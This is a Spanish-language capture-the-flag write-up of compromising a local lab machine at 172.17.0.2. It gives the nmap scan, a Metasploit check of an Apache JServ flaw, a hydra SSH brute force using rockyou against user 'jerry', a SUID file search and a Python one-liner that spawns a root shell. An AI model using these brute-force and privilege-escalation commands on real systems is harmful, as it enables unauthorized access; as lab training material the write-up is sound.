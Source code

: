 Fecha: 05/09/2024

Comienzo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240905155705.png)

Compruebo las versiones usando `msfconsole` y encuentro que Apache Jserv tiene una vulnerabilidad:

![](imágenes/Pasted%20image%2020240905160937.png)

![](imágenes/Pasted%20image%2020240905161358.png)

Ejecuto `exploit` y, viendo el fichero de salida encuentro el mensaje "Welcome to Tomcat, Jerry ;)"

![](imágenes/Pasted%20image%2020240905161526.png)

Probaré a buscar una contraseña para "Jerry" para ssh: 
```bash
sudo hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 
```

![](imágenes/Pasted%20image%2020240905161829.png)
Me conecto y veo que no puedo usar el comando sudo, así que busco ficheros con el bit SUID activado:
![](imágenes/Pasted%20image%2020240905162313.png)

```
find / -perm -4000 -user root 2>/dev/null
```

![](imágenes/Pasted%20image%2020240905162549.png)
Puedo usar python, así que debería ser fácil escalar privilegios. https://gtfobins.github.io/gtfobins/python/#suid 
Creo el siguiente archivo python y lo ejecuto:

```python
import os

os.execl("/bin/bash", "sh", "-p")
```

![](imágenes/Pasted%20image%2020240905163309.png)
En otros writeups leo que se puede ejecutar también de la siguiente forma:
```bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/bash", "sh", "-p")'
``` 




